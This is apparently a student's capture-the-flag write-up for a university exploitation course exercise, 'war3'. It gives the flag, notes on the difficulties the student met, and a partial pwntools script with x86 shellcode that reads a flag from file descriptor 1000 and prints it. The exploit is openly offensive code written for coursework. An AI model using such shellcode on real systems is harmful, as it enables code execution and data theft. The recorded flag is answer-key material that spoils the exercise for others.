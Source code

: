 pwntools - CTF toolkit

# z5214048 war3

Simple 
===========================
Flag: COMP6447{trivial}


General overview of problems faced
-------------------------------------
Problem: What the hell is FD? How do I access it?
Soln: Wonders of Google + lovely syscalls.kernelgrok.com

Problem: Too hard to fix x86 errors
Soln: Keep trying?

Had to hack the program:
1. Try simple /bin/sh obtainer -> Fail (what a surprise)
2. Assume the program's output: Flag at FD 1000. Then read FD 1000, store somewhere relatively safe in memory, and then write output to stdout. 
2.1. Where to "store somewhere relatively safe in memory" -> Tried arbitrary code execution chunk of memory + some offset (I did 0x100), which equates to EIP+0x100
 


Script/Command used
------------------
1. Run the script (PY3 + Pwntools from Dev3 branch)
```
#!/usr/bin/python3

from binascii import unhexlify
from pwn import *

PROGRAM_NAME = "sh"
ENCODING = "ascii"
REMOTE = 0
OFFSET = 16

# https://stackoverflow.com/a/15704848
ROM_HELLO = b'\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x05\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x65\x6c\x6c\x6f'

ROM_PWNHELLO = pwnlib.shellcraft.i386.linux.echo('pwny hello', 1)
ROM_MY = """
push 3
pop eax
        
push 0x3e8      
pop ebx

call get_eip
get_eip:
    pop ecx
add ecx, 0x100
push 0x32
pop edx
int    0x80           
	
push 4
pop eax
        
push 1
pop ebx        
int    0x80  
```